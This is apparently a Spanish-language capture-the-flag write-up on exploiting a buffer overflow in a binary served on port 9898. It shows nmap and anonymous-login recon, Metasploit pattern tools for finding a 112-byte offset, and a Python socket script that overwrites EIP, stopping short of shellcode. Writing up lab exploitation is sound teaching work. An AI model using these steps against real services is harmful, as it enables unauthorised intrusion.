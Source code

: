 Hacemos el escaneo de nmap:
![[Pasted image 20230902103757.png]]
![[Pasted image 20230902103933.png]]
![[Pasted image 20230902103953.png]]
Y vemos que el login como anonymous está habilitado:
![[Pasted image 20230902104039.png]]
Si ejecutamos ese binario, vemos que no ocurre nada aparentemente:
![[Pasted image 20230902104134.png]]
Y con la herramienta strace vemos que se esto levanta un puerto, el 9898 dentro del localhost:
![[Pasted image 20230902104305.png]]
Por lo que probamos en conectarnos y vemos que funciona:
![[Pasted image 20230902104338.png]]
De todos modos esto mismo corre en la máquina por el puerto 9898 (como también vimos con nmap):
![[Pasted image 20230902104434.png]]
En este punto, es posible que este binario admita un número determinado de caracteres, de tal forma que por ejemplo si ponemos algo no esperado nos sale el siguiente mensaje:
![[Pasted image 20230902105248.png]]
Pero si ponemos una cadena de caracteres mucho mayor, el binario se corrompe y se cierra:
![[Pasted image 20230902105325.png]]
## OBTENER EL OFFSET
Tenemos que obtener un dato llamado offset, y para ello primero vamos a usar una herramienta para generar el payload del bof:
```bash
msf-pattern_create -l 2000
```
![[Pasted image 20230902111740.png]]
Una vez con esto, vamos a ejecutar una herramienta llamada gdb donde vamos a pasarle este dato (en la parte de abajo le pegamos el payload anterior y arriba vemos que obtenemos un cópdigo):
![[Pasted image 20230902111834.png]]
Ese código lo pasamos por una herramienta llamada msf-pattern_offset que nos permitirá conocer el offset:
```bash
msf-pattern_offset -l 2000 -q 0x64413764
```
![[Pasted image 20230902111905.png]]
## CONTROLAR EL EIP
Ahora el siguiente paso será crear un script de python para controlar el EIP usando el offset obtenido anteriormente:
![[Pasted image 20230902112022.png]]
```python
#!/usr/bin/python

import sys,socket

shellcode = 'A'*112 + 'B'*4 + "\x90"*32 #if done correctly, you should see the EIP filled with 42424242

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('127.0.0.1',9898))
    s.send((shellcode))
    s.close()

except:
    print("Error connecting to server")
    sys.exit()
```
Hay que tener en cuenta que le ponemos 112 porque es el offset obtenido anteriormente:
![[Pasted image 20230902112229.png]]
